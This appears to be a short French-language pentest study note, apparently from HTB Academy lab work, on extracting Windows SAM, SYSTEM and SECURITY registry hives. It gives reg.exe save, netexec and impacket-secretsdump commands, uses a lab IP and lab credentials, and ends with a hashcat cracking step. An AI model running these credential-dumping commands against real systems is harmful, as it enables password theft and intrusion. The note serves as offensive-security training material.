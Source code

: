 3 ruches à extraires pour décrypter le tout. Security pas nécessaire mais contient des hashes de comptes d'usagers du domaine.

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

## Extraction des ruches
Doit être **admin** ou avoir **SeBackupPrivilege**
### reg.exe
```cmd-session
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
### netexec
Peut extraire les secrets de LSA ou la SAM
```shell-session
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Extraction des creds
### impacket-secretsdump
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

## Craquer
Utiliser hashcat mode 1000 sur les hash NT